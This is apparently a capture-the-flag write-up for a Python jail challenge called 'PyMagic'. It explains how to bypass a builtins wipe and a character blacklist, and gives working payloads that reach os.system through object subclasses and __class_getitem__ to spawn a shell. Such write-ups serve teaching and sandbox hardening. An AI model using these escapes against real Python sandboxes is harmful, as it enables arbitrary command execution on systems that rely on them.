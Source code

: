 # PyMagic

**Proof of Concept**

Given a sophisticated pyjail script with several restrictions.
```py
#!/usr/bin/env python3
import re

class something_to_do_huh:...
eval = eval
code = input('>>> ')

if not re.findall('[()\'"0123456789 ]', code):
    for k in (b:=__builtins__.__dict__).keys():
        b[k] = None
    
    eval(code, {'__builtins__': {}, '_': something_to_do_huh})
```

The first set of restrictions involves deleting `__builtins__`, thereby preventing us from accessing all of the built-in functions through `__builtins__`. By default, it can be easily circumvented by accessing an object subclass that has a `pre-loaded` module. For example, if we want to access `os` module without using `__import__` statement, it can be accomplished by looking for `os._wrap_close`, which is accessible through the `__globals__` attribute.

The second set of restrictions pertains to character blacklists, specifically `()'"0123456789 `, which hinders us from making normal function calls and declaring string variables. It can tricked by overwriting the `something_to_do_huh` magic attribute, specifically `__class_getitem__` introduced since **Python 3.7**, in order to substitute the method/function callback behavior from func(args) to func[args].

In this case, [__class_getitem__](https://peps.python.org/pep-0560/) serves as a `generic type` for a Python class, allowing it to be directly accessed with `class_name[args]` without requiring class instantiation beforehand.

The last restriction isolates the code using `eval(code, {'__builtins__': {}, '_': something_to_do_huh})`, effectively preventing us from accessing default `built-in functions` other than `_`, which points to the `something_to_do_huh` class. It can also be resolved by locating a specific subclass from the object class.

For simplicity, we can assign a new value to `__builtins__` using the `pre-loaded os` module, utilizing the walrus `:=` statement. This allows us to call it directly as a `built-in` function. It's important to remember that these changes only apply within a new frame, so we need to encapsulate them within a `lambda` function.

Here's the generic solution without constraints:
```py
_.__class__.__subclasses__(_.__base__)[140].__init__.__globals__['system']('sh')
```
And here's the modified solution
```py
[x:=_!=_,y:=-~x,z:=_.__name__]+[__builtins__:=_[_.__base__][-~y*~y*~y*~y*~y*~y*~y-~y*~y*~y-~y*-~y].__init__.__globals__	for	_.__class_getitem__	in[_.__class__.__subclasses__]]+[_[z[x]+z[-y]]for	_.__class_getitem__	in[_[_]for	_.__class_getitem__	in[lambda	x:system]]]
```

Alternatively, it's also possible to utilize string concatenation from the `__doc__` and `__name__` attributes for string crafting, such as **system**, **sh**, etc

```py
[x:=_!=_,y:=-~x,z:=_.__name__,d:=[].__doc__]+[_[z[x]+z[-y]]for	_.__class_getitem__	in[_[_.__base__][-~y*~y*~y*~y*~y*~y*~y-~y*~y*~y-~y*-~y].__init__.__globals__[z[x]+d[~-~y*~y*~y*~y*~y*~y-~y*~y*-~y-y]+z[x]+z[~y*~y]+z[~y*~y-y]+z[-~y]]for	_.__class_getitem__	in[_.__class__.__subclasses__]]]
```